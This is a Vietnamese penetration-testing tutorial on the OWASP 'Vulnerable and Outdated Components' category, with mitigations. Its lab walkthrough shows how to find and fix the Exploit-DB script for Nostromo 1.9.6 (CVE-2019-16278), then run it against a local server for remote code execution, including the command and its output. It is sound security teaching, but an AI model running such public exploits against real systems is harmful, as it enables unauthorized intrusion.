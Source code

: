 ## Vulnerable and Outdated Components (Thành Phần Dễ Bị Tấn Công Và Lỗi Thời)

    Trong bối cảnh kiểm tra thâm nhập, việc khai thác các thành phần dễ bị tấn công và lỗi thời (Vulnerable and Outdated Components) là một chiến thuật phổ biến và hiệu quả. Đây là điểm yếu xếp hạng cao trong OWASP Top 10, cho thấy mức độ phổ biến và tác động tiềm tàng của nó.

### Bản Chất Của Vấn Đề

Các ứng dụng hiện đại thường dựa vào nhiều thư viện, framework và thành phần bên thứ ba khác. Nếu các thành phần này không được cập nhật thường xuyên, chúng có thể chứa các lỗ hổng bảo mật đã biết. Kẻ tấn công có thể khai thác những lỗ hổng này để giành quyền truy cập trái phép, thực thi mã độc hoặc đánh cắp dữ liệu nhạy cảm.

### Quy Trình Khai Thác Điểm Yếu
* **Nhận Diện Thành Phần**: Sử dụng các công cụ quét, phân tích mã nguồn hoặc thông tin công khai để xác định các thành phần được sử dụng trong ứng dụng.
* **Kiểm Tra Lỗ Hổng**: So sánh các phiên bản thành phần với cơ sở dữ liệu lỗ hổng bảo mật đã biết (như CVE) để tìm kiếm các lỗ hổng có thể khai thác.
* **Khai Thác Lỗ Hổng**: Nếu tìm thấy lỗ hổng, hãy nghiên cứu các khai thác công khai hoặc phát triển khai thác tùy chỉnh để chứng minh tác động của lỗ hổng.

### Giảm Thiểu Rủi Ro
* Cập Nhật Thường Xuyên: Đảm bảo tất cả các thành phần được cập nhật lên phiên bản mới nhất để vá các lỗ hổng bảo mật đã biết.
* Quét Lỗ Hổng: Sử dụng các công cụ quét lỗ hổng tự động để phát hiện các thành phần dễ bị tấn công.
* Quản Lý Thành Phần: Theo dõi chặt chẽ các thành phần được sử dụng trong ứng dụng và có quy trình cập nhật rõ ràng.

### Ví dụ thực tế

![text](<img/14.png>)
Ta có 1 trang web và có thể thấy rằng máy chủ (server) trang web là Nostromo 1.9.6.

Bây giờ ta lên [**Exploit-DB**](https://www.exploit-db.com/) và tìm kiếm Nostromo 1.9.6

![text1](<img/15.png>)

May mắn thay, kết quả hàng đầu tình cờ là một tập lệnh khai thác. Hãy tải xuống nó và thử lấy mã thực thi. Chạy tập lệnh này một mình sẽ dạy cho chúng ta một bài học rất quan trọng.

```jsx
user@linux$ python 47837.pyTraceback (most recent call last):
  File "47837.py", line 10, in <module>
    cve2019_16278.py
NameError: name 'cve2019_16278' is not defined
```

Các khai thác bạn tải xuống từ Internet có thể không hoạt động ngay lần đầu tiên. Điều này giúp hiểu ngôn ngữ lập trình mà tập lệnh sử dụng để, nếu cần, bạn có thể sửa bất kỳ lỗi nào hoặc thực hiện bất kỳ sửa đổi nào, vì khá nhiều tập lệnh trên Exploit-DB mong đợi bạn thực hiện các sửa đổi.

May mắn thay, lỗi này là do một dòng lẽ ra phải được nhận xét, vì vậy đó là một sửa lỗi dễ dàng.

**Python**

```
# Exploit Title: nostromo 1.9.6 - Remote Code Execution# Date: 2019-12-31# Exploit Author: Kr0ff# Vendor Homepage:# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz# Version: 1.9.6# Tested on: Debian# CVE : CVE-2019-16278

cve2019_16278.py     # This line needs to be commented.#!/usr/bin/env python

```

Sửa xong, hãy thử chạy lại chương trình.

```jsx

user@linux$ python2 47837.py 127.0.0.1 80 id                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/

HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

Boom! Chúng tôi có RCE. Bây giờ điều quan trọng cần lưu ý là hầu hết các tập lệnh sẽ cho bạn biết những đối số bạn cần cung cấp. Các nhà phát triển khai thác hiếm khi bắt bạn đọc hàng trăm dòng mã tiềm năng chỉ để tìm ra cách sử dụng tập lệnh.

Cũng cần lưu ý rằng nó có thể không phải lúc nào cũng dễ dàng như vậy. Đôi khi bạn sẽ chỉ được cung cấp một số phiên bản, như trong trường hợp này, nhưng những lần khác, bạn có thể cần phải tìm hiểu qua mã nguồn HTML hoặc thậm chí đoán may mắn trên một tập lệnh khai thác. Nhưng thực tế, nếu đó là một lỗ hổng đã biết, có lẽ có một cách để khám phá phiên bản ứng dụng đang chạy.

Đó thực sự là nó. Điều tuyệt vời về phần này của OWASP Top 10 là công việc đã được thực hiện cho chúng ta, chúng ta chỉ cần thực hiện một số nghiên cứu cơ bản và với tư cách là người kiểm tra thâm nhập, bạn đã thực hiện điều đó khá nhiều.